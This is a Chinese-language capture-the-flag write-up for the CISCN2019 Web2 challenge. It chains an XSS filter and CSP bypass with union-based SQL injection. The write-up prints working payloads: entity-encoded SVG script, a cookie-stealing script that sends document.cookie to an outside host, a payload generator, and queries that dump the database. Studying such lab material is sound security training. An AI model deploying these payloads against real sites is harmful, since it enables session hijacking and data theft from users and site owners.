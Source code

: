 # \[CISCN2019 华东北赛区]Web2

## \[CISCN2019 华东北赛区]Web2

## 考点

* xss
* sql注入

## wp

登录注册，有个投稿和反馈的功能。

投稿输入

```javascript
<img src="ssssss.png" onerror="javascript:alert(1)" /> 
```

得到文章页面，访问发现存在过滤

```javascript
<img waf等于号”ssssss.png”="" onerror等于号”javascript:alert（1）”="">
```

反馈处有提示`请输入有问题的网址。我会亲自查看`，应该是个XSS，在投稿插入XSS语句，在反馈处让bot访问XSS页面窃取cookie

反馈处的验证要求验证码md5的前6位符合要求，爆破脚本如下

```python
import hashlib

for i in range(1, 10000001):
    s = hashlib.md5(str(i).encode()).hexdigest()[0:6]
    if s == "0fc428":
        print(i)
        break
```

接下来是如何绕过XSS的过滤。测试发现会把`英文的单双引号，英文的括号`换成`中文`的，然后`<,>svg,eval,script`都没过滤。可以尝试HTML实体编码绕过，`'`是`&#x27;`，`"`是`&#x22;`，`(`是`&#x28;`，`)`是`&#x29;`，=是`&#x3D;`

如下payload可以弹窗

```
<svg><script>alert&#x28;1&#x29;</script></svg>
<svg><script>eval&#x28;atob&#x28;&#x27;YWxlcnQoMSk&#x3D;&#x27;&#x29;&#x29;</script></svg>
<svg><script>&#x65;&#x76;&#x61;&#x6c;&#x28;&#x61;&#x74;&#x6f;&#x62;&#x28;&#x27;&#x59;&#x57;&#x78;&#x6c;&#x63;&#x6e;&#x51;&#x6f;&#x4d;&#x53;&#x6b;&#x3d;&#x27;&#x29;&#x29;</script></svg>
```

编码脚本

```python
res = ''
s="eval(atob('YWxlcnQoMSk='))"
for i in s:
    res = res + '&#' +hex(ord(i))[1:] + ';'
```

发现有CSP，可以使用跳转绕过

* `default-src 'self'` 所有的外部资源只能从当前域名加载
* `script-src unsafe-inline` 允许执行页面内嵌的标签和事件监听函数
* `script-src unsafe-eval` 允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval和Function等函数

![](<../.gitbook/assets/image (2).png>)

到XSS平台新建个项目，然后访问script脚本，得到代码

```javascript
(function() { (new Image()).src = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

然后把(new Image()).src改成window.location.href，结果如下

```javascript
(function() { window.location.href = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

用脚本生成一下payload，在XSS平台可以看到自己的cookie

```python
s = '''(function(){window.location.href='https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location='+encodeURIComponent((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+encodeURIComponent((function(){try{returntop.location.href}catch(e){return ''}})())+'&cookie='+encodeURIComponent((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+encodeURIComponent((function(){try{return (window.opener&&window.opener.location.href)?window.opener.location.href:''}catch(e){return''}})());})()'''
output = ""

for i in s:
    output += "&#" + hex(ord(i))[1:] + ";"

print("<svg><script>eval&#x28;&#x22;" + output + "&#x22;&#x29;</script></svg>")
```

<mark style="color:red;">然后到反馈里面填链接如下</mark>

```
http://web.node3.buuoj.cn:81/post/8933fc518918c6156409c3c2fe884a5f.html
```

![](<../.gitbook/assets/image (11).png>)

修改cookie再去访问admin.php，发现是个查询的功能

![](<../.gitbook/assets/image (28).png>)

尝试SQL注入，输入`id=3-1`，得到`id=2`的结果，是数字型注入

然后尝试联合注入`id=-1 union select 1,2,3`

当前数据库`id=-1 union select 1,(select database()),3` 得到`ciscn`

查询所有数据库`id=-1 union select 1,(select group_concat(schema_name) from information_schema.schemata),3`

得到`information_schema,ctftraining,mysql,performance_schema,test,ciscn`

当前数据库的表`id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ciscn'),3`

得到`flag,users`

查询flag表`id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='flag'),3`

得到`flagg`

查询flag `id=-1 union select 1,(select flagg from flag),3`

可以得到flag

![](<../.gitbook/assets/image (14).png>)

## 小结

1. XSS绕过的方式可以用HTML实体转义，有两种方式`&#x十六进制;`和`&#十进制;`
2. CSP绕过可以尝试`window.location.href`跳转的方式

